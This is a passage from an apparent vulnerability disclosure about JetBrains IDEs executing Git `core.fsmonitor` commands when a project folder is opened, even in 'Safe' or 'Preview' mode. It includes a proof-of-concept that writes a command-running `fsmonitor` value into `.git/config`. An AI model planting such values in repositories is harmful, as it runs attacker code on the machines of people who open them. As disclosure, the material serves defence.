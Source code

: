 For example:

* IDEA offered this if a file named `build.gradle` exists in the directory
* CLion offered this if a file named `CMakeLists.txt` exists in the directory
* Rubymine offered this if a file named `Gemfile` exists in the directory

Note that this list is not necessarily exhaustive.

Until the introduction of Project Security, these modes did not disable Git integration. That is to say, even if the user chose not to trust the project given such a dialog in a JetBrains IDE prior to version 2021.3.1, `core.fsmonitor` payloads would still fire automatically.

### JetBrains IDEs POC

Create an empty Git repo:

```plain
% cd $(mktemp -d)

% mkdir poc

% git -C poc init
Initialized empty Git repository in /tmp/tmp.lH15HBm16d/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

% echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config
% cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

`touch` various files that trigger the "Safe" or "Preview" modes described above:

```plain
% touch poc/{build.gradle,CMakeLists.txt,Gemfile}

% ls -la poc
total 12
drwxr-xr-x 3 justin justin 4096 Aug 13 15:11 .
drwx------ 3 justin justin 4096 Aug 13 15:10 ..
drwxr-xr-x 7 justin justin 4096 Aug 13 15:10 .git
-rw-r--r-- 1 justin justin    0 Aug 13 15:11 CMakeLists.txt
-rw-r--r-- 1 justin justin    0 Aug 13 15:11 Gemfile
-rw-r--r-- 1 justin justin    0 Aug 13 15:11 build.gradle
```

Run each of the JetBrains IDEs against the `poc` directory and observe that the `core.fsmonitor` payload executes for each one. Furthermore, note that choosing to open the directory in "Safe" or "Preview" mode (where applicable) has no bearing on the execution of the payload.
